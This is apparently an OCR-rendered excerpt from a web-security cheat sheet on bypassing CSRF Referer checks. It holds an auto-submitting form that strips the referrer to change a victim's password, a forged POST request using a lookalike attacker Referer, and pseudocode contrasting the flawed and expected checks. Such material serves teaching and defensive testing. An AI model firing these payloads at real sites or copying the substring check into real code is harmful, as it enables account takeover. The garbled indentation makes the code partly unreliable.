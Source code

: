         - **Bypass CSRF Referer Header Check**
            
            ```python
            # Just Remove The referrer
            <html>
             <meta name="referrer" content="no-referrer">
             <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
             <input type="text" name="new_password" value="abc123">
             <input type='submit' value="Submit">
             </form>
             <script>document.getElementById("csrf-form").submit();</script>
            </html>
            --------------------
            # Expected Code
            def validate_referer():
             if (request.referer in allowlisted_domains):
            pass
             else:
             throw_error("Referer incorrect. Request rejected.")
            [...]
            def process_state_changing_action():
             if request.referer:
             validate_referer()
             execute_action()
            ---------------------------
            # another way
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE;
            Referer: example.com.attacker.com
            (POST request body)
            new_password=abc123
            ------------------
            # Vulnerable code
            def validate_referer():
             if request.referer:
             if ("example.com" in request.referer):
             pass
             else:
             throw_error("Referer incorrect. Request rejected.")
            [...]
            def process_state_changing_action():
             validate_referer()
             execute_action()
            ```
            